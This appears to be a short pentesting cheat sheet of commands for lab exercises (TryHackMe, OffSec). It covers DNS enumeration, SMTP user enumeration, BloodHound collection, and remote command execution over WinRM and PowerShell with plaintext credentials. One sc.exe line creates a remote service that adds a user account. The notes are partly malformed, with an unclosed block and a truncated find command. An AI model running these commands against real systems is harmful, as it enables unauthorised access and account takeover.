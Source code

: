 ### dnsrecon
```bash
dnsrecon -d megacorpone.com -r 10.0.0.0/8
dnsrecon -d megacorpone.com -t std
dnsrecon -d megacorp.com -D ~/list.txt -t brt
```

### WinRM
```bash
# winrs.exe
winrs.exe -u:Administrator -p:Mypass123 -r:target cmd

### sc.exe
```bash
sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto
sc.exe \\TARGET start THMservice
```

### smtp-user-enum
```bash
# with found usernames, use them against FTP, SSH ETC...
smtp-user-enum -M VRFY -U /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -t 192.168.177.63
smtp-user-enum -M VRFY -U usernames.txt -t 10.129.182.186 -w 10
```

### bash
```bash
# search for flag.txt
find / 
```


### with powershell
```bash
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
Enter-PSSession -Computername TARGET -Credential $credential

or
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
```




### bloodhound-python
```bash
bloodhound-python -u fmcsorley -p 'CrabSharkJellyfish192' -ns 192.168.216.122 -d hutch.offsec -c all
```
